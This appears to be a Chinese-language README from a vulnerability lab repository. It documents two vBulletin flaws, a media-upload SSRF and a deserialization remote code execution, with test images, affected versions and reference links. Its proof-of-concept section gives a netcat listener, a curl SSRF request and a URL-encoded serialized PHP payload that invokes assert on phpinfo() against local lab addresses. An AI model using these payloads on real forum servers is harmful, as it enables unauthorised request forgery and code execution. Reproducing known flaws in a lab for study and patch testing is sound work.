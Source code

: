 ## vBulletin MEDIA UPLOAD SSRF 漏洞

测试镜像

* src/vbulletin/5.1.4

影响版本

* vBulletin <= 5.2.2
* vBulletin <= 4.2.3
* vBulletin <= 3.8.9

参考链接

* [vBulletin MEDIA UPLOAD SSRF 漏洞分析](https://paper.seebug.org/24/)

Poc

监听本地端口：

`sudo nc -lvvp 80`

访问地址：

```
curl -d "url=http://172.17.0.1:80/hello_ssrf" "http://172.17.0.2/link/getlinkdata"
```

172.17.0.1为监听的IP地址，172.17.0.2为网站地址



## vBulletin 5 全版本远程代码执行漏洞

测试镜像

* src/vbulletin/v5.1.4

影响版本

* vBulletin 5.1.4-5.1.9

参考链接

* [vBulletin 5 全版本远程代码执行漏洞分析](https://www.anquanke.com/post/id/82870)

Poc

使用`vBulletin5全版本远程代码执行漏洞`目录下的 `exp.php`生成payload，作为数参数访问：

`http://127.0.0.1/ajax/api/hook/decodeArguments?arguments=O%3A12%3A%22vB_dB_Result%22%3A2%3A%7Bs%3A5%3A%22%00%2A%00db%22%3BO%3A17%3A%22vB_Database_MySQL%22%3A1%3A%7Bs%3A9%3A%22functions%22%3Ba%3A1%3A%7Bs%3A11%3A%22free_result%22%3Bs%3A6%3A%22assert%22%3B%7D%7Ds%3A12%3A%22%00%2A%00recordset%22%3Bs%3A9%3A%22phpinfo%28%29%22%3B%7D`

